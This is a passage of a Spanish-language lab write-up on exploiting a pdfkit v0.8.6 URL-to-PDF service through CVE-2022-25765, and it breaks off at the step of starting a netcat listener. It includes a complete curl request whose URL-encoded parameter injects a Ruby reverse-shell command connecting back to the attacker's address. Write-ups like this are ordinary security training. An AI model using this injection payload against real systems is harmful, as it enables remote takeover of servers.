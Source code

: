 No nos reporta ningún directorio oculto.

Puesto que podemos ejecutar una url, nos montamos un servidor e introducimos nuestra ip en la página:

> ❯ python3 -m http.server 80

A continuacón:

> http://(NUESTRA_IP)

Nos reporta un pdf, lo descargamos. 

Mediante la herramienta exiftool podemos analizar los metadatos del mismo:

```bash
❯ exiftool vcuo7wyz55p42n8nvsqzuuhoy4rd7ng4.pdf
ExifTool Version Number         : 12.44
File Name                       : vcuo7wyz55p42n8nvsqzuuhoy4rd7ng4.pdf
Directory                       : .
File Size                       : 17 kB
File Modification Date/Time     : 2023:03:16 12:47:59-04:00
File Access Date/Time           : 2023:03:16 12:47:59-04:00
File Inode Change Date/Time     : 2023:03:16 12:47:59-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

Tras investigar un poco, en la última línea reporta:

> pdfkit v0.8.6

Buscamos si hay alguna vulnerabilidad mediante: CVE pdfkit v0.8.6

Nos reporta el CVE 2022-25765

Este CVE representa que en esta versión es vulnerable a Command Injection mediante curl mediante el siguiente comando indicando en TARGET_ADDRESS la ip de la máquina víctima, en LOCAL-ADDRESS nuestra ip y en LOCAL-PORT el puerto por el que estaremos en escucha:

> curl 'TARGET_ADDRESS' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: TARGET_ADDRESS' -H 'Connection: keep-alive' -H 'Referer: TARGET_ADDRESS' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'

Antes de lanzar la petición hay que mantener el servidor con:

> python -m http.server 80

Además de estar mediante netcat en escucha por el puerto indicado anteriormente:
